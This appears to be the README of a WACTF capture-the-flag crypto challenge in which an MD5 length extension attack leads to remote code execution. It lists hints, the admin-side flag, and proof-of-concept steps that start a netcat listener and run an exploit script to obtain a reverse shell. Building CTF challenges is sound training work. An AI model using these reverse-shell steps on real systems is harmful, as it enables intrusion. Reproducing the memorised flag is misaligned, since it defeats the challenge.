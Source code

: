 ## Info

| metadata                                  | <>                                        |
| ----------------------------------------- | ----------------------------------------- |
| Developer Name(s)                         | Dylan                                     |
| Best Contact Slack handle / Email address | dylan@dylanpindur.com/Dylan (WACTF Slack) |
| Challenge Category                        | Crypto                                    |
| Challenge Tier                            | 4                                         |
| Challenge Type                            | Container                                 |

| Player facing         | <>                                                     |
| --------------------- | ------------------------------------------------------ |
| Challenge Name        | s3cur3 r3pl                                            |
| Challenge Description | Gain remote code execution and read flag from flag.txt. http://crypto-4 | 
| Challenge Hint 1      | Flickr's API suffered from a similar vulnerability     |
| Challenge Hint 2      | Investigate 'MD5 Length Extension Attacks'             |

| Admin Facing   | <>                                      |
| -------------- | --------------------------------------- |
| Challenge Flag | WACTF{76656ebc7cc6d6267529456ad9179672} |
| Challenge Vuln | MD5 Length Extension -> RCE             |
| Docker Usage Idle          | 1% CPU / 10MB RAM  |
| Docker usage Expected Peak | 10% CPU / 20MB RAM |

---

## Challenge PoC
Setup `exploit.py` as follows.
```
kali@kali:~$ python3 -m venv env
kali@kali:~$ . ./env/bin/activate
kali@kali:~$ pip install requests
Collecting requests
  Using cached requests-2.24.0-py2.py3-none-any.whl (61 kB)
Collecting urllib3!=1.25.0,!=1.25.1,<1.26,>=1.21.1
  Using cached urllib3-1.25.11-py2.py3-none-any.whl (127 kB)
Collecting certifi>=2017.4.17
  Using cached certifi-2020.6.20-py2.py3-none-any.whl (156 kB)
Collecting chardet<4,>=3.0.2
  Using cached chardet-3.0.4-py2.py3-none-any.whl (133 kB)
Collecting idna<3,>=2.5
  Using cached idna-2.10-py2.py3-none-any.whl (58 kB)
Installing collected packages: urllib3, certifi, chardet, idna, requests
Successfully installed certifi-2020.6.20 chardet-3.0.4 idna-2.10 requests-2.24.0 urllib3-1.25.11
```

Start a netcat handler.
```
kali@kali:~$ nc -lvp 4444
```

The `exploit.py` script can be used to obtain a reverse shell as as follows.
```
kali@kali:~$ python exploit.py 192.168.1.33 192.168.1.33 4444
Status code: 200
Response: {"result":{}}
```

